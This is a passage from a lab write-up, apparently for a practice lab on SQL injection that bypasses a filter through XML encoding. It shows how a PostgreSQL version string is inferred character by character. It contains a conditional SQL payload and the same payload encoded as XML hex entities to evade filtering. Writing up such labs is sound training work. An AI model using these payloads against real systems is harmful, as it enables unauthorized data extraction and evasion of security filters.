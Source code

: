 The version starts with "P":



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/6.png)

Then “o”:



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/7.png)

It start with "PostgreSQL":

```
SELECT CASE WHEN (substring((SELECT version()),1,10)='PostgreSQL') THEN 1 ELSE 2 END
```

```
(&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x73;&#x75;&#x62;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x28;&#x28;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x76;&#x65;&#x72;&#x73;&#x69;&#x6f;&#x6e;&#x28;&#x29;&#x29;&#x2c;&#x31;&#x2c;&#x31;&#x30;&#x29;&#x3d;&#x27;&#x50;&#x6f;&#x73;&#x74;&#x67;&#x72;&#x65;&#x53;&#x51;&#x4c;&#x27;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;)
```



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/8.png)
